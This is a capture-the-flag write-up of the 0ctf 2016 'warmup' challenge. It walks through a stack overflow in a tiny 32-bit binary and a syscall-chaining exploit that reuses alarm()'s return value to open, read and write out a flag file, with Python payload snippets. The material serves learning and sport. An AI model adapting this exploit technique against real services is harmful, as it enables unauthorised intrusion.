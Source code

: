 +++
title = "0ctf 2016 - Warmup write-up"
author = "hugsy"
date = 2016-03-14T00:00:00Z
updated = 2016-03-14T00:00:00Z

[taxonomies]
tags = ["pwn", "gef", "ida", "0ctf-2016", "x86"]
categories = ["ctf"]
+++

I participated to [0ctf](https://ctftime.org/team/4419/) but only had time to play for
the reversing challenge `trace` (write-up coming up soon) during the competition
time.

I did this challenge only for fun after the CTF was over so I do not know the
flag, and since I found it interesting, I decided to write a quick write-up.

And kudos to all teams who solved it !


### Info ###


```bash
gef➤  !file ./warmup
./warmup: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, BuildID[sha1]=c1791030f336fcc9cda1da8dc3a3f8a70d930a11, stripped
gef➤  checksec warmup
[+] checksec for 'warmup'
Canary:                                           No
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    No
Full RelRO:                                       No
```

Pretty stripped down file, very small (which seemed weird for a statically
linked file). Stack canary and PIE are not on, but NX is.


### Vulnerability ###

The binary is really small, does not do much either, so the vulnerability is
quite easy to find and trigger.

{{ img(src="https://i.imgur.com/jpU2YsD.png" title="vuln") }}

At 0x08048174, We have a `read(socket, buffer, 52)` where buffer can only
contain 32 bytes, so we have a classic stack overflow. A part of the challenge
is however due to the fact that our controlled part is quite limited
(i.e. 52-32=20 bytes=5 DWORD).



### Exploitation ###

In addition to not having a lot of gadgets (the source was written in pure
assembly), no libc, etc. 0ctf organizers added that

```txt
notice: This service is protected by a sandbox, you can only read the flag at /home/warmup/flag
```

Meaning: we cannot simply write `/bin/sh` somewhere in memory, set `eax` to 11
and simply use a gadget to set `ebx`, `ecx`, `edx` to value loaded from the
stack. We have to go all the way to open, read, write back the value of the flag
located in `/home/warmup/flag`.

This lead to a much funkier way to exploit.


#### Objective ####

The objective here seems pretty straight forward. We need to :

   1. Write `/tmp/flag` in a predictable and writable location ( anywhere in the
   `.data` section will do just fine).
   1. Forge a `sys_open(flag, RWX)` gadget
   1. Forge a `sys_read(fd, another_writeable_location, 50)` gadget
   1. Forge a `sys_write(socket, another_writeable_location, 50)`

And it is done! In theory it seems pretty easy, but it took me a few hours
(never underestimate a challenge ☺).


#### Interesting gadgets ####

What the binary provides us with are gadgets to read and write:
```bash
--read
.text:0804811D                 mov     eax, 3
.text:08048122                 mov     ebx, [esp+fd]   ; fd
.text:08048126                 mov     ecx, [esp+addr] ; addr
.text:0804812A                 mov     edx, [esp+len]  ; len
.text:0804812E                 int     80h             ; LINUX - sys_read

--write
.text:08048135                 mov     eax, 4
.text:0804813A                 mov     ebx, [esp+fd]   ; fd
.text:0804813E                 mov     ecx, [esp+addr] ; addr
.text:08048142                 mov     edx, [esp+len]  ; len
.text:08048146                 int     80h             ; LINUX - sys_write
```

Where the arguments are read from the limited stack we control.

However, we do not have an `sys_open` gadget, but since we can control `ebx`
from the stack, all we need is to find a way to set `eax` to
[5](https://raw.githubusercontent.com/torvalds/linux/master/arch/x86/entry/syscalls/syscall_32.tbl)

My original intention was to force a call to `sys_read` from our socket, and
send 5 bytes of junk data so that the syscall can return with the right value in
`eax`. Unfortunately, we do not have enough space in our stack to chain correctly our
`read` arguments, then jump into it and finally jump back to our next gadget ☹ .

After quite some time, I realized that `warmup` starts by initializing an alarm
for 10 seconds (which when `SIGALRM` is received, will kill the
program).
```bash
.text:0804810D                 mov     eax, 27
.text:08048112                 mov     ebx, [esp+seconds] ; seconds
.text:08048116                 int     80h             ; LINUX - sys_alarm
```

Nevertheless, this could be valuable to us, because RTFM:

>
>       alarm()  returns  the number of seconds remaining until any previously
>       scheduled alarm was due to be delivered, or zero if there was no
>       previously scheduled alarm.
>

That means that if we jump a second time into the gadget @0x0804810D (i.e. call
`alarm()` a second time), `eax` will be populated with whatever time is left
before SIGALRM is issued!
And since `alarm()` can take any integer as argument, our syscall will not
return as an error! So by sleeping 5 seconds, `sys_alarm` will return with `eax`
set to `NR_sys_open` (5), and we can use the stack to populate the other
registers required for `sys_open`!


#### Attack ####

Again, because of our limited space in the stack, we need to trigger the
vulnerability multiple times. To do, we have to perform only one operation, then
return to the original function (`0x0804815A`), and let the control flow repeat
again until it re-hit our vulnerability.

So let's go back to the steps we set in the *Objective* part for the
exploitation part:

Writing `/tmp/flag` in a predictable and writable location can be done with the
following gadgets:
```python
    p = "A"*32
    p+= i_s(sys_read)
    p+= i_s(ret_to_orginal_function) # ret back to vuln function
    p+= i_s(0) # fd
    p+= i_s(writable_addr) # addr
    p+= i_s(len(flag_path)) # len
    s.write(p)
    s.read_until("Good Luck!\n")
```

Now we have to sleep !! ☺
```python
    time.sleep(5)
```

Now we can send our second payload, to call `alarm`, setting `eax` to
`NR_sys_open`, and append the other arguments:
```python
    p = "A"*32
    p+= i_s(sys_alarm)
    p+= i_s(set_ebx_ecx_edx_int80)
    p+= i_s(ret_to_orginal_function)
    p+= i_s(writable_addr)
    p+= i_s(7) # READ|WRITE|EXECUTE
    s.write(p)
    s.read_until("Good Luck!\n")
```

We have now a file descriptor open to our flag file! Let's read its content:
```python
    p = "A"*32
    p+= i_s(sys_read)
    p+= i_s(ret_to_orginal_function)
    p+= i_s(5) # file_fd
    p+= i_s(writable_addr2)
    p+= i_s(20)
    s.write(p)
    s.read_until("Good Luck!\n")
```

... And write it back to our socket (and exit cleanly, just because):
```python
    p = "A"*32
    p+= i_s(sys_write)
    p+= i_s(sys_exit)
    p+= i_s(1) # fd stdout
    p+= i_s(writable_addr2)
    p+= i_s(20)
    s.write(p)
```

This write-up does not give justice to the challenge, making it look easy. But
it was not. I really like how you are made to create really inventive and neat
technique for subverting existing calls to set up the structure the exact way
you want it.

For those who want, the full exploit script is
[here](https://gist.github.com/hugsy/8e31ddc61dba7d4e7c1f). But again, it was
not tested against the game server.

Another good lesson to pay attention to details...

